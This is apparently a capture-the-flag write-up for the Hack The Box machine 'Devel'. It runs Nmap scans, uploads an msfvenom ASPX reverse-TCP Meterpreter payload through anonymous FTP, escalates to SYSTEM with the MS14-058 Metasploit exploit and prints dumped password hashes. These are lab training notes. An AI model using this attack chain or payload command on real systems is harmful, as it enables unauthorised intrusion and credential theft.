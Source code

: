 # Hackthebox Devel

Before we start I always reset the box, it is often that services have crashed or behaves in unintended ways after others have exploited them. And I do not want any spoilers that may have been left by others on the box.

### Attack Summary

1. Anonymous ftp access
2. Aspx shell upload
3. MS14_058 local exploit


## Recon

### Service Discovey

First, as always. we perform our initial enumeration of the box using Nmap.

``` 
# Nmap 7.70 scan initiated Thu Dec 27 09:57:38 2018 as: nmap -v -sV -p- -T4 -oA devel_tcp_full 10.10.10.5
Increasing send delay for 10.10.10.5 from 0 to 5 due to 19 out of 47 dropped probes since last increase.
Increasing send delay for 10.10.10.5 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 10.10.10.5
Host is up (0.067s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
So we found two open services, one FTP server and one HTTP server. Let's start from the top and check the FTP server.

The first thing I always do is to check if the server allows anynymous connections. There are several ways we could test this, I usually just try it manually, but let's use a nmap script this time.

```
root@kali:~/htb/devel# nmap -v -sV -p21 --script ftp-anon.nse 10.10.10.5


Nmap scan report for 10.10.10.5
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Okej, se it seems that we can get anonymous access to the ftp server. And by the looks of the files we see I would say that we are in the webroot of the weberver. 

If we are able to upload files through the FTP directly in the webroot, we could potentially upload a webshell and get RCE on the webserver.


## Initial Compromise

### RCE on weberver

Let's generate a aspx payload with msfvenom and try to upload it.

```
root@kali:~/htb/devel# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put meterpreter.aspx
local: meterpreter.aspx remote: meterpreter.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2849 bytes sent in 0.00 secs (37.2194 MB/s)
ftp> 
```

Msfvenom payload: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f aspx -o meterpreter.aspx`

Then we should only need to request the shell through a browser with the following URL: http://10.10.10.5/meterpreter.aspx

```
msf exploit(multi/handler) > 
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.10.10.5:49158) at 2018-12-27 10:44:37 +0100

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : DEVEL
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > getuid 
Server username: IIS APPPOOL\Web
```


## Pivilege Escalation

If I have a limited meterpreter shell on a Windows box I usually use the exploit suggester module. It will search for possible working privesc exploits that exists within Metasploit.

```
msf post(multi/recon/local_exploit_suggester) > exploit 

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 28 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

### MS14 058 track_popup_menu exploit

The search found a couple of exploits that we could try. I will try the MS14_058 as that one usually is pretty reliable.

```
msf exploit(windows/local/ms14_058_track_popup_menu) > exploit 

[*] Started reverse TCP handler on 10.10.14.12:4443 
[*] Launching notepad to host the exploit...
[+] Process 3772 launched.
[*] Reflectively injecting the exploit DLL into 3772...
[*] Injecting exploit into 3772...
[*] Exploit injected. Injecting payload into 3772...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.14.12:4443 -> 10.10.10.5:49158) at 2018-12-27 10:54:25 +0100

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

Bingo, we are system.

## Dumping Credentials

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a450f6000be7df50ee304d0a838d638f:::
babis:1000:aad3b435b51404eeaad3b435b51404ee:a1133ec0f7779e215acc8a36922acf57:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```